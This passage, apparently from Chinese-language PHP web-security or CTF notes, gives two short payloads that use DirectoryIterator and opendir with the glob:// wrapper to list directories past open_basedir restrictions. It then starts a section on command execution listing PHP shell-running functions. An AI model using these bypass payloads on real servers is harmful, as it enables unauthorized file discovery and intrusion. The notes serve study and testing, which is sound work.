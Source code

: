 

###### DirectoryIterator+glob://

DirectoryIterator是php5中增加的一个类，为用户提供一个简单的查看目录的接口，利用此方法可以绕过open_basedir限制。(但是似乎只能用于Linux下)

```php
payloadL:
<?php
$a = new DirectoryIterator("glob:///*.txt");
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
#	glob:///*	会列出根目录下的文件
# 	glob://*	会列出open_basedir允许目录下的文件
```

###### opendir()+readdir()+glob://

同样只能列出根目录已经open_basedir()允许的目录

```php
<?php
if ( $b = opendir('glob:///*') ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```







## 命令执行

### 命令执行函数

PHP命令执行函数：

- [escapeshellarg](https://www.php.net/manual/zh/function.escapeshellarg.php) — 把字符串转码为可以在 shell 命令里使用的参数
- [escapeshellcmd](https://www.php.net/manual/zh/function.escapeshellcmd.php) — shell 元字符转义
- [exec](https://www.php.net/manual/zh/function.exec.php) — 执行一个外部程序
- [passthru](https://www.php.net/manual/zh/function.passthru.php) — 执行外部程序并且显示原始输出
- [proc_close](https://www.php.net/manual/zh/function.proc-close.php) — 关闭由 proc_open 打开的进程并且返回进程退出码
- [proc_get_status](https://www.php.net/manual/zh/function.proc-get-status.php) — 获取由 proc_open 函数打开的进程的信息
- [proc_nice](https://www.php.net/manual/zh/function.proc-nice.php) — 修改当前进程的优先级
- [proc_open](https://www.php.net/manual/zh/function.proc-open.php) — 执行一个命令，并且打开用来输入/输出的文件指针。
- [proc_terminate](https://www.php.net/manual/zh/function.proc-terminate.php) — 杀除由 proc_open 打开的进程
- [shell_exec](https://www.php.net/manual/zh/function.shell-exec.php) — 通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。
- [system](https://www.php.net/manual/zh/function.system.php) — 执行外部程序，并且显示输出
- 反引号``
